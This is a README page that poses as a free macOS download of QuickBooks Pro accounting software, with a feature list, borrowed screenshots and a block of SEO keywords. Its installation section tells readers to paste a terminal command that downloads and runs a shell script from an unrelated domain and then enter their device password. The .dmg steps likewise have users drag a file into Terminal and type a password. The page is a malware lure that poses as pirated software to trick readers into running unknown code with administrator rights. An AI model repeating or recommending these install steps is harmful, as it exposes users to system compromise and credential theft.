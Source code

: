 # 💼 QuickBooks Pro — Professional Accounting Software for macOS

QuickBooks Pro is the ultimate desktop accounting solution for macOS users. Whether you're a small business owner or an accounting professional, QuickBooks Pro helps you manage invoices, track expenses, and generate detailed reports — all in one place.

[![🚀 Download QuickBooks Pro 🟣](https://img.shields.io/badge/Download-QuickBooks%20Pro-blueviolet)](https://quickbooks-pro-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is QuickBooks Pro?

QuickBooks Pro is a powerful and reliable desktop accounting software built for macOS. It offers all the tools you need to run your business efficiently — including income and expense tracking, invoicing, payroll, and deep financial reporting.

It’s ideal for freelancers, startups, and established businesses who want a local solution that doesn’t rely on cloud subscriptions.

---

## ✨ Features

- 📊 Professional income & expense tracking  
- 🧾 Invoice creation and management  
- 💼 Built-in payroll tools  
- 📌 Track sales, profits, and vendor activity  
- 📁 Export data into Excel or PDF  
- 🔐 Secure local storage  
- 🖥️ Optimized for macOS interface  
- 🧠 Smart automation for recurring transactions  
- 📉 Comprehensive reporting system  
- 🌐 Works offline without cloud dependency  

---

## 🖼️ Preview

![screenshot1](https://fitsmallbusiness.com/wp-content/uploads/2022/11/Screenshot_of_QuickBooks_Desktop_Pro_Income_Tracker.jpg)  
![screenshot2](https://insightfulaccountant.com/downloads/12210/download/Core-20_QB-Capital_01.png?cb=683777ae062070e0a129be49ba5e0f13)

---

## 🔍 SEO Keywords

quickbooks pro online pricing, quickbooks pro, quickbooks desktop pro,  
quickbooks premier, quickbooks accountant desktop, quickbooks desktop version,  
proadvisor quickbooks, qbo proadvisor, quickbooks pro software, desktop pro quickbooks,  
quickbook versions, qb desktop pro, quickbooks desktop pro for mac, transactionpro,  
quickbooks desktop, quickbooks pro, quickbooks desktop pro plus, quickbooks products,  
quickbooks proadvisor near me, quickbooks desktop premier, quickbooks pro plus,  
quickbooks desktop pro 2021, quickbooks pro, quick book pro, find a quickbooks proadvisor,  
quickbooks, quickbooks pro online, quickbooks desktop premier plus, quickbooks desktop pro plus, find a proadvisor

---

